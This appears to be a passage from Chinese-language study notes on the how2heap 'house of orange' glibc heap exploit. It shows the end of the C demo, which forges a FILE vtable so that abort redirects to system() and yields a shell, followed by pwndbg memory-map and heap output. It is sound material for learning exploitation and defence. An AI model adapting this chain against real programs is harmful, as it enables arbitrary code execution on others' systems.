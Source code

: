 ```c

    size_t *jump_table = &top[12]; // controlled memory
    jump_table[3] = (size_t) &winner;
    *(size_t *) ((size_t) fp + sizeof(FILE)) = (size_t) jump_table; // top+0xd8


  	//通过一次不适当大小的申请的malloc来触发Unsrted bin Attack 和 abort
    /* Finally, trigger the whole chain by calling malloc */
    malloc(10);

   /*
     The libc's error message will be printed to the screen
     But you'll get a shell anyways.
   */

    return 0;
}

int winner(char *ptr)
{ 
    system(ptr);
    return 0;
}
```

#### 关键点调试

```c
 ► 47     p1 = malloc(0x400-16);
```

此时是第一次分配，开辟了`0x21000`的空间，可以看到页对齐的两个chunk。

```shell
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
          0x400000           0x401000 r-xp     1000 0      /home/mech0n/how2heap-master/glibc_2.25/house_of_orange
          0x600000           0x601000 r--p     1000 0      /home/mech0n/how2heap-master/glibc_2.25/house_of_orange
          0x601000           0x602000 rw-p     1000 1000   /home/mech0n/how2heap-master/glibc_2.25/house_of_orange
          0x602000           0x623000 rw-p    21000 0      [heap]
    0x7ffff7a0d000     0x7ffff7bcd000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7bcd000     0x7ffff7dcd000 ---p   200000 1c0000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7dcd000     0x7ffff7dd1000 r--p     4000 1c0000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7dd1000     0x7ffff7dd3000 rw-p     2000 1c4000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7dd3000     0x7ffff7dd7000 rw-p     4000 0
    0x7ffff7dd7000     0x7ffff7dfd000 r-xp    26000 0      /lib/x86_64-linux-gnu/ld-2.23.so
    0x7ffff7feb000     0x7ffff7fee000 rw-p     3000 0
    0x7ffff7ff8000     0x7ffff7ffa000 r--p     2000 0      [vvar]
    0x7ffff7ffa000     0x7ffff7ffc000 r-xp     2000 0      [vdso]
    0x7ffff7ffc000     0x7ffff7ffd000 r--p     1000 25000  /lib/x86_64-linux-gnu/ld-2.23.so
    0x7ffff7ffd000     0x7ffff7ffe000 rw-p     1000 26000  /lib/x86_64-linux-gnu/ld-2.23.so
    0x7ffff7ffe000     0x7ffff7fff000 rw-p     1000 0
    0x7ffffffde000     0x7ffffffff000 rw-p    21000 0      [stack]
0xffffffffff600000 0xffffffffff601000 r-xp     1000 0      [vsyscall]

pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x602000
Size: 0x401

Top chunk | PREV_INUSE
Addr: 0x602400
```